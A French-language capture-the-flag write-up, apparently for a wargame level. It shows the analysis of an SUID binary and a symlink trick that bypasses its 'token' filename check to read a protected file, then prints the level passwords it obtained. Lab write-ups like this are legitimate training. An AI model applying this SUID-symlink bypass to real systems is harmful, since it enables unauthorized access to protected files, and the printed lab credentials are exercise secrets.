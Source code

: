LEVEL 08

------------------------------------------------------------------------------------------------------------------------

    find . -user level08 2> /dev/null | grep -v proc
                 flag08
    find . -perm /u=s,g=s 2> /dev/null | grep -v proc
    find . -type f -user flag07 -o -user level08
    find . -maxdepth 1 -name "*string*" -print


* Recherches

    -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08*
    -rw-------  1 flag08  flag08    26 Mar  5  2016 token

    Binaire SUID et GUID avec extended right via les ACLs

    getfacl level08
        
        Voir le ss- dans man getfacl 

       Indicates  the  setuid (s), setgid (s), and sticky (t) bits: either the letter representing the bit, or else a dash
       (-). This line is included if any of those bits is set and left out otherwise, so it will not be shown for most files.


    file level08    --> RAS
    ldd level08     --> RAS
    strings level08

        %s [file to read]
        token                     --> Potentiellement un des arguments passés à strstr()
        You may not access '%s'
        Unable to open %s
        Unable to read fd %d

    ltrace ./level08
        
            printf("%s [file to read]\n", "./level08"./level08 [file to read]
    
    strace ./level08

            write(1, "./level08 [file to read]\n", 25./level08 [file to read]) = 25

    Le binaire prend un <file to read>

    objdump -d level08 | awk -F"\n" -v RS="\n\n" '$1 ~ /<main>/'


        call   8048420 <printf@plt>
        call   8048460 <exit@plt>

        call   8048400 <strstr@plt>
        call   8048420 <printf@plt>
        call   8048460 <exit@plt>

        8048470 <open@plt>
        call   8048440 <err@plt>
        8048410 <read@plt>
        048490 <write@plt>
        call   8048430 <__stack_chk_fail@plt>

        Anormal le __stack_chk_fail

        https://stackoverflow.com/questions/38418114/why-is-stack-chk-fail-happening-in-my-code

        Answer : One of words exceed MAX_STRING which cause stack overflowed.
                 Stacktrace after crash on __stack_chk_fail only tells you where the problem
                 (stack overflow that smashed the stack) got detected. AddressSanitizer can tell you right when the overflow is happening.

                __stack_chk_fail -- terminate a function in case of stack overflow
                void __stack_chk_fail(void);
                The interface __stack_chk_fail() shall abort the function that called it with a message that a stack overflow has been detected. The program that called the function shall then exit.
                The interface __stack_chk_fail() does not check for a stack overflow itself. It merely reports one when invoked.


    perl -e 'print "A"x100000' > first

    b 37      --> Taille max
    Breakpoint 5 at 0x804868d: file level08.c, line 37.

    En settant des bp avant les call et en affichant les registres, on note qu'edx est set à 400 soit 1024 en décimal
    On constate aussi que c'est la limite du write
    
    perl -e 'print "A"x1000' > /tmp/first ; ./level08 /tmp/first  | wc   # -> Output 1000
    perl -e 'print "A"x1050' > /tmp/first ; ./level08 /tmp/first  | wc   # -> Output 1024 et non 1050

    ---------

    Stop recherches BOF, enfin ne mène à rien car à priori l'objet __stack_chk_fail  traduit l'impossibilité d'exploit via BOF
    Retour à l'idée initiale (skippée sans avoir testé, de fouiner dans les liens symboliques)

    On note un comportement différent quand on passe le fichier token
    Il open/read/write le contenu du fichier passé si celui-ci ne contient pas 'token' dans son nom

        echo pwd > one
        ./level08 /tmp/one
        
        ./level08 token
        
        ./level08 tokden

    Sur le "strings level08", on voit "token", donc à priori c'est le strstr qui l'appelle, et comme il y a pas mal de condition/jump,
    ça peut jusitifer les différences d'output

    Comme en examinant le binaire on ne voit pas d'execv / system, on est quasi sûr que le fichier token contient le flag08

    ./level08 token -> ne passe pas ofc

    echo > one
    ./level08 /tmp/one -> semble fonctionner mais est vide

    On peut créer un liens symbolique du fichier token à un "fichier symbolique" dans /tmp
    pour que l'exécutable prenne en fait bien le fichier token

    ln -s $(pwd)/token /tmp/xxx
    ./level08 /tmp/xxx

    Top, ça fonctionne
    Faille apparement bien connue (suid + symlink)

    su flag08 quif5eloekouj29ke0vouxean
    getflag
    su level09 25749xKZ8L7DkSCwJkT9dyv6f 

    Comme on a tjrs accès à tmp/, on peut créer

    



------------------------------------------------------------------------------------------------------------------------


NASM :

    L'instruction TEST :

        CMP subtracts the operands and sets the flags. Namely, it sets the zero flag if the difference is zero (operands are equal).

        TEST sets the zero flag, ZF, when the result of the AND operation is zero. If two operands are equal, their bitwise AND is zero when both are zero.
        TEST also sets the sign flag, SF, when the most significant bit is set in the result, and the parity flag, PF, when the number of set bits is even.

        JE [Jump if Equals] tests the zero flag and jumps if the flag is set. JE is an alias of JZ [Jump if Zero] so the disassembler cannot select one based on the opcode.
        JE is named such because the zero flag is set if the arguments to CMP are equal.

            TEST %eax, %eax
            JE   400e77 <phase_1+0x23>
            jumps if the %eax is zero.

            Équivaut à :

            if (eax == 0) {
                goto some_address
            }

STRSTR :

     If needle is an empty string, haystack is returned; if needle occurs nowhere in haystack, NULL is returned; otherwise a pointer to the first character of
     the first occurrence of needle is returned.

     char * strstr(const char *haystack, const char *needle);

DOCS :

    https://www.exploit-db.com/papers/13199
    https://lwn.net/Articles/250468/